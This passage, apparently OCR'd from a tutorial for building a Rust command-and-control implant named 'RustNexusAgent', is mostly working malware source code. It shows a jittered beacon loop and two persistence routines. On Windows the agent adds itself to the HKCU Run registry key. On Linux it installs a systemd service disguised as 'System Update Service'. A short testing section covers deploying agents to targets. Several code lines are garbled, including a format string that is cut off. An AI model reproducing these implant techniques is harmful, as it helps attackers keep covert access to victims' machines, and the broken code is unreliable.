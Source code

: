 ```
    
    loop {
        // Heartbeat and task handling...
        
        // Add jitter to sleep time (30-90 seconds)
        let jitter = rng.gen_range(30..90);
        thread::sleep(Duration::from_secs(jitter));
    }
}
```

### across reboots:

#### Windows Persistence

```rust
fn install_persistence_windows() {
    let executable_path = env::current_exe().unwrap();
    let key = RegKey::predef(HKEY_CURRENT_USER)
        .create_subkey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run")
        .unwrap();
    
    key.0.set_value("RustNexusAgent", &executable_path.to()).unwrap();
}
```

#### Linux Persistence

```rust
fn install_persistence_linux() {
    let executable_path = env::current_exe().unwrap();
    let service_file = format!(
        "[Unit]\nDescription=System Update Service\n\n[Service]\nExecStart={}\nRestart=always\n\n[Install]\nWantedBy
        executable_path.to_str().unwrap()
    );
    
    std::fs::write("/etc/systemd/system/system-update.service", service_file).unwrap();
    Command::new("systemctl")
        .args(&["enable", "system-update"])
        .output()
        .unwrap();
}
```

## Testing

1. **Local Testing**: Run both server and agent on localhost
2. **Network Testing**: Deploy server on one machine and agents on others
3. **Cross-Platform Testing**: Test agents on both Windows and Linux targets

## Debugging

